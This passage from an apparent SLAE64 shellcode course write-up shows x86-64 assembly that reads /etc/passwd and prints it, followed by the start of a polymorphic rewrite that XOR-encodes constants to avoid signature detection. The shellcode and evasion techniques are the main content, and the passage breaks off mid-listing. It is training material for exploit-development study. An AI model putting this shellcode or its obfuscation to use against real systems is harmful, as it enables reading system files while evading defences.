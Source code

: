     ; syscall write to stdout
    xor rdi, rdi
    add dil, 1 ; set stdout fd = 1
    mov rdx, rax
    xor rax, rax
    add al, 1
    syscall
      
    ; syscall exit
    xor rax, rax
    add al, 60
    syscall
      
    _push_filename:
    call _readfile
    path: db "/etc/passwdA"

I executed it with the same shellcode runner used in other exam solutions:

![etc passwd](/static/blog/2018/SLAE64/6/etc_passwd.png)

82 bytes - so we are limited to 82*1.5=123 bytes for our new version. Rather than write everything from scratch, I just reorganized the program where possible, and add some limited encoding such as `xor` some values with constants. I also substituted like instructions such as `push`ing and `pop`ing where possible rather than `mov`ing, `inc` instead of `add`ing 1, and stuff like that. This is my final result:

    BITS 64
    global _start
    section .text

    _start:
      xor r12,r12
      mov rbx, 0x2323232323475450
      push rbx
      mov rbx, 0x5042530c4057460c
      push rbx
      mov rdi,rsp

